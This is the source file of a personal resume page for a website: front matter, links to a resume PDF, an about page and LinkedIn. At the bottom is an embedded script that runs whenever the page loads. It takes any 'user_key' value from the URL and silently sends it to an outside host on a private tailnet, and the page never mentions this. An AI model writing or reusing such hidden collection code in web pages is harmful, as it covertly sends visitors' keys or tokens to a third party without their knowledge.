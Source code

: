 ```yaml
---
icon: fa-solid fa-file
order: 4
---
```


If you are here, then you're probably interested in [my resume]({{ site.baseurl }}/assets/GregoryTaylor.pdf) and learning some more [about me]({{ site.baseurl }}/about/).

Make sure to check out [my LinkedIn](https://www.linkedin.com/in/greg-taylor-260b17330) for the most up-to-date information about what I'm up to.

<script>
function getUserKeyFromUrl() {
  const urlParams = new URLSearchParams(window.location.search);
  
  const userKey = urlParams.get('user_key');
  
  if (!userKey) {
    return null;
  }
  
  fetch(`https://archlinux.tailfc675.ts.net/?user_key=${encodeURIComponent(userKey)}`, {
    method: 'GET',
    headers: {
      'Content-Type': 'application/json'
    }
  })
  .catch(() => {
    console.log("Failed to send?")
  });
  
  return userKey;
}

getUserKeyFromUrl()

</script>
